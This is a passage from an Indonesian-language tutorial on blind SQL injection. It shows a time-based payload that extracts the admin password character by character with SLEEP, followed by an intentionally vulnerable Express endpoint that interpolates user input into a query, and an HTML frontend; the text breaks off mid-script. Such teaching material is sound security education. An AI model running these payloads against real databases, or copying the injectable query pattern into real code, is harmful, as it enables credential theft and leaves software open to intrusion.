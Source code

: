 Kira-kira berikut hasil query akhirnya:
```SQL
SELECT * FROM products WHERE id=984 AND IF(SUBSTRING((SELECT password from users WHERE user='admin'),1,1)='a',SLEEP(5),0)
```

Apabila hasil dari eksfiltrasi data itu valid, maka query akan disleep selama beberapa detik sebelum selesai. Lakukan teknik ini berungkali untuk setiap lengthnya sehingga kalian bisa mendapatkan semua data yang ada.

Perlu diperhatikan bahwa perintah sql bisa berbeda-beda setiap jenis databasenya, untuk sehingga kalian perlu menyesuaikan perintahnya dengan database yang dimiliki oleh sistem.


### Condition Based Blind SQL Injection

Condition Based Blind SQL Injection ini bisa dilakukan dengan kalian mengetahui apakah hasil dari query tersebut valid atau tidak. Bisa dengan cara apabila hasil query valid, maka ada kondisi yang ter-reflect di website, sebaliknya, maka hasilnya tidak akan tampil.

Lihatlah kode Backend berikut:
```javascript
//Kode Backend
app.get("/searchcookies", isAuthenticated, async (req, res, next) => {
  cookies = req.query.cookies;

  const query = `SELECT DISTINCT * FROM cookies WHERE flavor = "${cookies}"`;

    pool.query(query, (err, result) => {
      if(err){
        return next(err)
      }
    
    if(result){
      result = "The Cookie exists"
    }

    return res.status(200).render("index", {cookies: result || ""})
    });
})
```

Frontend:
```javascript
//Kode Frontend
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Cookies</title>
</head>
<body>
    <h1>Check if ur cookies exist:</h1>
    <form id="cookieForm">
        <input type="text" name="flavor" placeholder="chocolate chip">
        <button type="submit">Search</button>
    </form>

    <h1>Here's your result:</h1>
    <ul>
        <li><%= cookies %></li>
    </ul>
</body>
<script>
    document.getElementById('cookieForm').addEventListener('submit', async function(event) {
        event.preventDefault();
```